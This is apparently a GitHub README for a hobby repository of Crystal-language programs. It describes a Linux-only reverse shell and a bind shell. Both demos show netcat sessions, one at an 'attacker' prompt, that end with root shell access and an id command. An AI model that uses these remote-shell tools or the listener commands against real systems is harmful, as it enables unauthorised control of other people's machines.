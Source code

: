 # crystalmeth
experiments with "crystal" language. As I faff with it I'll upload small programs here with some semblance of documentation. 

## backconnect.cr  
It is a reverse shell. 

Linux only (because I cheated and used syscalls for the dup2 part) reverse shell. Once I can be fucked, I'll fix it so it works properly on other platforms.

Demo:  
I mean. It is the most basic reverse shell. 
```
# crystal run backconnect.cr
(nothing happens)
--
attacker:~$  nc -lvp 42069
listening on [any] 42069 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 35216
id
uid=0(root) gid=0(root) groups=0(root)
exit
```

## bindport.cr
Linux only (because I cheated and used syscalls for the dup2 part) bind shell. Once I can be fucked, I'll fix it so it works properly on other platforms.

Demo:  
I mean. It is the most basic bind shell. 

```
# crystal run bindport.cr
(nothing happens)
--
$ nc -v 127.0.0.1 42069
localhost [127.0.0.1] 42069 (?) open
id
uid=0(root) gid=0(root) groups=0(root)
```
